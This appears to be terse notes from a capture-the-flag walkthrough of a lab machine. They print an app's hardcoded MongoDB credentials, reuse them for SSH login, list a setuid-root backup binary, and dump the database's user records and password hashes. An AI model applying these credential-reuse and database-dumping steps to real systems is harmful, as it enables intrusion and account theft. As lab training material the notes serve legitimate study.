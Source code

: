 Password

`magicword`

var/www/backup/myplace

```js
➜  myplace cat app.js 

const express     = require('express');
const session     = require('express-session');
const bodyParser  = require('body-parser');
const crypto      = require('crypto');
const MongoClient = require('mongodb').MongoClient;
const ObjectID    = require('mongodb').ObjectID;
const path        = require("path");
const spawn        = require('child_process').spawn;
const app         = express();
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
const backup_key  = '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474';
```

Login through SSH with mark user

`mark:5AYRft73VtFpc84k`

`mark@node:/opt$ ls -la /usr/local/bin/backup 
-rwsr-xr-- 1 root admin 16484 Sep  3  2017 /usr/local/bin/backup`

Dump DB

`mongodump -u mark -p 5AYRft73VtFpc84k -d myplace`

```bash
mark@node:/tmp/dump/myplace$ cat users.bson 
 _idY 6[  2\ > username
myP14ceAdm1nAcc0uNT
password
dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0ais_admin _idY 6   2\ > 

username
tom
password
f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f24is_admin _idY 6   2\ > 

username
mark
password
de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f7is_admin _idY     o   

username
rastating
password
5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2fis_admin
```
